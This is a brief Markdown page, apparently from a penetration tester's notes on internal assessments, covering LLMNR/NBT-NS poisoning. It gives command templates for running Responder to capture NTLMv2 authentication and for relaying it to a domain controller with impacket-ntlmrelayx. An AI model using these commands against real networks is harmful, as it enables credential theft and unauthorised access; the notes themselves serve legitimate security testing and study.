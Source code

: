 ```yaml
---
layout: blank
pagetitle: Internal Assessments
---
```


## Poisoning
- Poisoning is often your best friend on internals
- Run `sudo responder -I {network_interface}` to capture auth information
  - Can try to crack NTLMv2 info or relay it onwards
- If the credentials can't be cracked, pair responder up with `ntlmrelayx`
  - `impacket-ntlmrelayx -t {protocol_like_smb}://{dc_ip} `